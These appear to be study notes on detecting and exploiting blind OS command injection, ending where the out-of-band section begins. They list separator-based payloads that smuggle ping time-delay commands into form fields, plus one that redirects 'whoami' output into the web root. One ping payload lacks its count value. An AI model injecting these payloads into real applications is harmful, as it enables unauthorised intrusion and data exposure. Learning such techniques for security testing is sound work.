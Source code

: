 Try using an injected command to trigger a time delay, enabling you to confirm it was executed based on the response time. The `ping` command can be used to specify the number of ICMP packets to send, controlling the time taken for the command to run:

```bash
& ping -c 127.0.0.1 &
```

To maximize chances of identifying OS command injection if the app is filtering certain command separators, submit each of the following to each input fields and analyse the time taken for the app to respond:

```bash
| ping -i 30 127.0.0.1 |
| ping -n 30 127.0.0.1 |
& ping -i 30 127.0.0.1 &
& ping -n 30 127.0.0.1 &
; ping -i 30 127.0.0.1 ;
%0a ping -i 30 127.0.0.1 %0a
` ping 127.0.0.1 `
```

As an example, there may be a feedback form requiring info like name, email, subject and messages. Submitting the feedback may not return the direct response. Try injecting various payloads into the parameters submitted to sleep for 10 seconds:

![[Test Sleep.png]]

Test each field and see if it sleeps for 10 seconds. If not, try various other payloads such as the double pipe

![[Ping Test.png]]
# Blind Command Injection Exfiltration - Redirection

To exploit blind command injection, you can redirect the output from the injected command into a file within the web root that can be retrieved by the browser. If the app serves static resources from the filesystem `/var/www/static`, then submit the following:

```bash
& whoami > /var/www/static/whoami.txt &
```

For example, there may be a vulnerable email parameter in a feedback form. Try submitting various payloads to try and redirect the output to a specified file/directory such as `/var/www/images`:

![[Output TXT.png]]

If vulnerable, navigate to the directory.

>[!info]
>To find a directory or how to access the image, look at other images/static resources on the page.
# Blind Command Injection - OAST Interaction

You can use an injected command to trigger an out-of-band network interaction with a system like Collaborator such as:
